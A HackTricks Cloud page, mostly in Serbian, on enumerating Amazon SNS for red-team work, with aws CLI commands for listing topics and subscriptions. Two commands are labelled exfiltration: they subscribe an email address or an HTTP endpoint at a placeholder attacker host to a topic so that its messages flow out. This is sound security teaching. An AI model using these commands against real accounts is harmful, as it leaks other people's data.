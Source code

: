 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) se opisuje kao **potpuno upravljana usluga za razmenu poruka**. Podržava i **aplikacija-na-aplikaciju** (A2A) i **aplikacija-na-osobu** (A2P) tipove komunikacije.

Ključne karakteristike za A2A komunikaciju uključuju **mehanizme objavljivanja/pretplate (pub/sub)**. Ovi mehanizmi uvode **teme**, koje su ključne za omogućavanje visoke propusnosti, **push-bazirane, mnoge-na-mnoge razmene poruka**. Ova karakteristika je veoma korisna u scenarijima koji uključuju distribuirane sisteme, mikroservise i arhitekture bez servera zasnovane na događajima. Korišćenjem ovih tema, sistemi za objavljivanje mogu efikasno distribuirati poruke širokom spektru sistema za pretplatu, olakšavajući obrazac razmene poruka.

### **Razlika sa SQS**

**SQS** je **usluga zasnovana na redovima** koja omogućava komunikaciju tačka-tačka, osiguravajući da poruke obrađuje **jedan potrošač**. Nudi **isporuku najmanje jednom**, podržava standardne i FIFO redove, i omogućava zadržavanje poruka za ponovne pokušaje i odloženu obradu.\
S druge strane, **SNS** je **usluga zasnovana na objavljivanju/pretplati**, koja omogućava **jedan-na-mnoge** komunikaciju emitovanjem poruka **više pretplatnicima** istovremeno. Podržava **različite krajnje tačke pretplate kao što su email, SMS, Lambda funkcije i HTTP/HTTPS**, i pruža mehanizme filtriranja za ciljanje isporuke poruka.\
Dok obe usluge omogućavaju odvajanje između komponenti u distribuiranim sistemima, SQS se fokusira na komunikaciju putem redova, dok SNS naglašava komunikacione obrasce zasnovane na događajima i širenju.

### **Enumeracija**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Napomena da ako je **tema tipa FIFO**, samo pretplatnici koji koriste protokol **SQS** mogu biti korišćeni (HTTP ili HTTPS ne mogu biti korišćeni).

Takođe, čak i ako `--topic-arn` sadrži region, obavezno navedite tačan region u **`--region`** ili ćete dobiti grešku koja izgleda kao da nemate pristup, ali problem je u regionu.
{% endhint %}

#### Neautorizovani Pristup

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Eskalacija Privilegija

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Eksploatacija

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Postojanost

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Reference

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
